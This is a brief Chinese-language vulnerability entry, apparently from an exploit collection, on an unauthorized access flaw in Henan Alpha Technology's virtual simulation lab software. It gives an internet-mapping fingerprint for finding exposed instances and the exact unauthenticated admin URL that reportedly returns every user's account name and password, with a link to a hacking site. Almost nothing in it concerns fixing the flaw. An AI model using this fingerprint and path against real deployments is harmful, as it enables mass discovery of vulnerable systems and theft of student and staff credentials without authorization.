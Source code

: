 # 

# 阿尔法科技 虚拟仿真实验室 未授权访问漏洞

## 漏洞描述

阿尔法科技 虚拟仿真实验室 存在未授权访问漏洞，通过访问构造的Url可以获取敏感信息

## 漏洞影响

```
虚拟仿真实验室
```

## 网络测绘

```
body="河南阿尔法科技有限公司"
```

## 漏洞复现

未授权的Url为

```plain
/admin/student/studentlist.html?page=1
```

![](./images/202202101929331.png)



成功获取所有用户的账号密码信息

## 参考文章

http://www.0dayhack.net/index.php/1702/
